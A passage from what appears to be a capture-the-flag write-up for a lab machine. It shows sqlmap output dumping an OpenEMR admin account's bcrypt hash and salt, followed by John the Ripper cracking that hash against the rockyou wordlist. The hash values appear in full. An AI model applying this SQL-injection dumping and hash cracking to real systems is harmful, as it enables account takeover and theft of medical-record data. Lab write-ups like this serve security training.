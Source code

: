 ```
[09:34:50] [INFO] retrieved: 'varchar(255)'
[09:34:50] [INFO] retrieved: 'salt_history2'
[09:34:50] [INFO] retrieved: 'varchar(255)'
[09:34:50] [INFO] fetching entries for table 'users_secure' in database 'openemr'
[09:34:50] [INFO] retrieved: '1'
[09:34:51] [INFO] retrieved: '$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.'
[09:34:51] [INFO] retrieved: '2019-11-21 06:38:40'
[09:34:51] [INFO] retrieved: ' '
[09:34:51] [INFO] retrieved: ' '
[09:34:51] [INFO] retrieved: '$2a$05$l2sTLIG6GTBeyBf7TAKL6A$'
[09:34:51] [INFO] retrieved: ' '
[09:34:51] [INFO] retrieved: ' '
[09:34:51] [INFO] retrieved: 'openemr_admin'
Database: openemr
Table: users_secure
[1 entry]
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+

[09:34:51] [INFO] table 'openemr.users_secure' dumped to CSV file '/home/snowscan/.sqlmap/output/hms.htb/dump/openemr/users_secure.csv'                                                                                               
[09:34:51] [INFO] fetched data logged to text files under '/home/snowscan/.sqlmap/output/hms.htb'

[*] ending @ 09:34:51 /2020-05-10/
```

Then with John we can crack that hash and get the password: `xxxxxx`

```
snowscan@kali:~/htb/cache$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-05-10 09:41) 7.692g/s 6646p/s 6646c/s 6646C/s tristan..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
